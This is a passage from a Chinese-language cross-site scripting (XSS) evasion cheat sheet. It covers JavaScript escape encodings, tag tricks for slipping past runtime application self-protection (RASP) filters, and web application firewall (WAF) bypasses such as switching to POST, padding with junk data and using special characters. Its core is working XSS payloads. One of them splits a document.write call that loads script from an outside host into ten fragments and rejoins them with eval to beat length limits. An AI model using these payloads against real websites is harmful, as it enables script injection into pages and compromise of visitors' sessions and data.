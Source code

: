 三个八进制数字，例如”e”编码为”\145″，该语法不属于ECMAScript,但是基本所有的浏览器都支持。

#### C语言编码

对于一些控制字符，使用特殊的C类型的转义风格（例如\n和\r)，公认的ECMAScript编码。

### rasp绕过

标签后面加单双引号

    <a'/onclick=confirm()>
    
构造无效标签

    <abc1 onclick=confirm()>
    
标签名称长度大于12

    <abcdefabcdefa onclick=confirm()>
    
### 长度限制绕过

最短拆分

多个插入点，仅能插入小于等于n的字符串，payload较长，可以尝试拆分。

举例

    <script>
    z=document.write("<script src=http://me.cn/xstest></script>")
    eval(z)
    </script>
    
然后我们尝试将它拆成十个部分：

    <script>z='document'</script>
    <script>z=z+'.write('</script>
    <script>z=z+'"<scrip'</script>
    <script>z=z+'t src=h'</script>
    <script>z=z+'ttp://m'</script>
    <script>z=z+'e.cn/xs'</script>
    <script>z=z+'test></'</script>
    <script>z=z+'script>'</script>
    <script>z=z+'")'</script>
    <script>eval(z)</script>
    
### HTTP请求方式修改

有些WAF只检测URL的内容，不检测POST的body内容

### 垃圾数据溢出

有的WAF对超过的内容不进行检测，可以填写无影响的垃圾数据进行填充

### 特殊字符干扰

比如 `/ #`
